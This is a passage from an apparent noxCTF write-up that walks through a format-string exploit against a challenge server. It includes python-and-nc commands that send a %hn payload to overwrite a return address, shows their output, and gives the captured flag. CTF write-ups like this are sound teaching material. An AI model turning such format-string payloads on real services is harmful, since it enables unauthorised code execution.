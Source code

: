 We already have the value of `var_3C` from the server: 0xffffddc4.
0xffffddc4 - 0x108 = 0xffffdcbc.
Let's start building our format string to write to that address:

```console
root@kali:~# python -c "print ('\xbc\xdc\xff\xff%4x%9\$p')"  | nc 18.223.228.52 13337 && echo ""
Someone told me that pwning makes noxāle...
But......... how ???? 
����804890c0xffffdcbc
```

What do we have here?
- "\xbc\xdc\xff\xff": This is the address we want to write to (0xffffdcbc), formatted as little-endian.
- "%4x" - A placeholder which will be used in order to control the value written to the address above, by utilizing the width specifier (currently set to 4). changing the width specifier allows controlling the amount of characters written as part of this format specifier. Note: This format specifier currently causes the value of "804890c" to be printed, but the actual value being printed is not important since we just want to use this format specifier to control the number of characters printed.
- "%9\$p" - "Take the ninth DWORD from the stack, treat it as a pointer and print it" - just in order to make sure we are able to locate the address we want to write to (and indeed, it prints 0xffffdcbc). When we change the "p" to "n", `printf` will dereference this address and write to it the number of characters outputted (which we can control using the width specifier as explained above).

We're almost set, just a few more minor tweaks and we're done.

When we use "%n" to write the amount of characters outputted, the value gets written as a DWORD. Since the value we want to write (the address of `noxFlag`, i.e. 0x0804867B) is pretty large (and is based on characters outputted to the screen), and since the original value (the return address to `main`, i.e. 0x080487d8) is in the same area, we can actually just override the lower WORD, as the upper WORD (0x0804) already contains the value we want. To do that, we use "%hn" instead of "%n" - this will dereference the same address on the stack, but write a WORD to that address.

Last but not least, we must modify our width specifier to output the value we want.
We want to write "0x867B" (34427). We've already written 4 bytes with "\xbc\xdc\xff\xff". So 34427 - 4 = 34423.

Therefore our complete exploit will be:

```console
root@kali:~# python -c "print ('\xbc\xdc\xff\xff%34423x%9\$hn')" | nc 18.223.228.52 13337
Someone told me that pwning makes noxāle...
But......... how ???? 
����
[many spaces...]
                                                          804890c
Hooo right... noxāle 

noxCTF{%N3ver_%7rust_%4h3_%F0rmat}
root@kali:~# 
```

The flag: **noxCTF{%N3ver_%7rust_%4h3_%F0rmat}**

Exploit using pwntools:
